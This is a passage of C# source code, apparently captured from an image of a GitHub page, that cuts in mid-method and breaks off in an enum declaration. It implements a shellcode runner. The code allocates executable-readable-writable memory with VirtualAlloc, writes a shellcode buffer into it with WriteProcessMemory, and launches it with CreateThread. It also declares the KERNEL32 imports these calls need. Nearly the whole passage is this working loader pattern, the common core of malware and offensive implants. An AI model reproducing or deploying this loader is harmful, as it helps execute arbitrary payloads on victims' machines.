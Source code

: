 ```csharp
        }

        // allocate memory
        var hMemory = VirtualAlloc(
            IntPtr.Zero,
            (uint)shellcode.Length,
            VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT | VIRTUAL_ALLOCATION_TYPE.MEM_RESERVE,
            PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

        // copy shellcode
        WriteProcessMemory(
            new IntPtr(-1),
            hMemory,
            shellcode,
            (uint)shellcode.Length,
            out _);

        // create thread
        var hThread = CreateThread(
            IntPtr.Zero,
            0,
            hMemory,
            IntPtr.Zero,
            THREAD_CREATION_FLAGS.THREAD_CREATE_RUN_IMMEDIATELY,
            out _);

        // close thread handle
        CloseHandle(hThread);
    }

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern IntPtr VirtualAlloc(
        IntPtr lpAddress,
        uint dwSize,
        VIRTUAL_ALLOCATION_TYPE flAllocationType,
        PAGE_PROTECTION_FLAGS flProtect);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        uint nSize,
        out uint lpNumberOfBytesWritten);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        THREAD_CREATION_FLAGS dwCreationFlags,
        out uint lpThreadId);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern bool CloseHandle(IntPtr hObject);

    [Flags]
    public enum VIRTUAL_ALLOCATION_TYPE : uint
```